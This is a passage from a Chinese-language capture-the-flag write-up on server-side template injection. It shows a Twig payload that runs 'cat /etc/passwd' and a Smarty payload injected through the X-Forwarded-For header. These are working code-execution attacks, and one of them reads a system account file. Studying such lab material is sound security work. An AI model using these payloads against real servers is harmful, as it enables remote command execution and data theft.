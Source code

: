 ```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}
```

![image-20220308220421898](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203082204032.png)

然后直接`cat /flag`

## The mystery of ip

###  考点：

smarty的模板注入

###  wp

`flag.php`中显示ip地址，可能就想到了利用`xff`和`client_ip`两个header标签。尝试了一下`127.0.0.1`,不成功。`<script>alert("1")</script>`，xss也不成功。

试一下`SSTI`,成功了。看到回显是php，所以肯定不是flask。

最后确定`smarty`的模板注入

payload：

`X-Forwarded-For: {if phpinfo()}{/if}`

![image-20220308164154209](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203081642530.png)



读取flag

![image-20220308164320887](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203081643181.png)



###  smarty的模板学习

https://github.com/unexpectedzzy/Web-Security/tree/main/SSTI/smarty

##  对模板注入的判别

```
https://cloud.tencent.com/developer/article/1516336

https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#1-php-%E5%B8%B8%E7%94%A8%E7%9A%84
```

https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#1-php-%E5%B8%B8%E7%94%A8%E7%9A%84

##  EasySearch

###  考点
